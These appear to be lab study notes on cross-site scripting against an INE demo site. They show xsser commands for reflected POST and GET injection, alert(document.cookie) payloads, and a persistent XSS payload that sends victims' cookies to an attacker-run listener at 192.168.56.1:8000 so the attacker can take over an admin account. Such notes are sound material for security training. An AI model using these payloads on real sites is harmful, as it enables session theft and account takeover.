

# XSS

Webpage could be susceptible to XSS attacks if user input is reflected back onto the page<br>
Use xsser to check for these vulnerabilities

## Reflected

Input is outputted onto webpage

### POST Request

Submit query and intercept with Burp Suite<br>


Pass to xsser to check for XSS vuln<br>
- Change target parameter value to "XSS" so xsser knows which parameter to inject payload
-p=POSTDATA
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Try different payloads
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```

Add your own custom parameter<br>
-Fp=FINAL_PAYLOAD
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(document.cookie)</script>"
```

Change payload in Burp Suite


### GET Request

Check for XSS vuln

```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=ark&user-poll-php-submit-button=Submit+Vote"
```


Try different payloads<br>
-Fp=FINAL_PAYLOAD
```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=ark&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(document.cookie)</script>"
```


## Persistent

Input is permanently stored in the webpage's database

Write blog post script that will display the user's cookie
```
<h1 id=cookie-tag></h1><script>document.getElementById("cookie-tag").innerHTML = document.cookie</script>
```




Now lets inject a script that will steal cookies

```
<script>document.location="http://192.168.56.1:8000/?cookie=" + document.cookie</script>
```

Start webserver on port 8000
```
python3 -m http.server
```


Use the stolen cookie to get admin access

